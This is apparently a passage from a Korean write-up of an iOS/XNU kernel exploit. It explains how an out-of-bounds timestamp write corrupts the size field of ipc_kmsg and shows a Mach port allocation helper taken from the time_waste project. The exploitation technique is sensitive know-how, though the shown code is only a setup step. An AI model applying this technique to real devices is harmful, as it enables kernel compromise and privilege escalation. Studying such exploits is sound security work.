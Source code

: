 구조화된 데이터는 다음과 같이 이뤄진다.

![image.png](pics/image.png)

# 익스플로잇 방법

가장 큰 아이디어는 범위를 벗어난 OOB 타임스탬프 쓰기를 이용해 `ipc_kmsg`의 크기 필드를 손상시키는 것이다. 
Jakeashacks님이 익스플로잇을 개선시킨 time_waste 프로젝트 코드를 같이 보면서 알아보겠다.

우선 먼저 200개의 포트를 `new_mach_port` 함수로 만든다.

`new_mach_port`는
새로운 Mach 포트를 수신권한과 함께 먼저 생성시킨뒤,

기존의 receive right로부터 send right를 생성하여 같은 태스크 이름 공간에 삽입함에 따라 send/receive 권한을 둘다 가지게 된다.

그런 다음, 포트의 큐(수신 큐) 제한을 `MACH_PORT_QLIMIT_LARGE`(1024)로 늘리기 위해 `mpl_qlimit` 필드를 지정해주는 것으로 보인다.

```cpp
mach_port_t new_mach_port() {
    mach_port_t port = MACH_PORT_NULL;
    kern_return_t ret = mach_port_allocate(mach_task_self(), MACH_PORT_RIGHT_RECEIVE, &port);
    if (ret) {
        printf("[-] failed to allocate port\n");
        return MACH_PORT_NULL;
    }
    
    mach_port_insert_right(mach_task_self(), port, port, MACH_MSG_TYPE_MAKE_SEND);
    if (ret) {
        printf("[-] failed to insert right\n");
        mach_port_destroy(mach_task_self(), port);
        return MACH_PORT_NULL;
    }
    
    mach_port_limits_t limits = {0};
    limits.mpl_qlimit = MACH_PORT_QLIMIT_LARGE;
    ret = mach_port_set_attributes(mach_task_self(), port, MACH_PORT_LIMITS_INFO, (mach_port_info_t)&limits, MACH_PORT_LIMITS_INFO_COUNT);
    if (ret) {
        printf("[-] failed to increase queue limit\n");
        mach_port_destroy(mach_task_self(), port);
        return MACH_PORT_NULL;
    }
    
    return port;
}
```
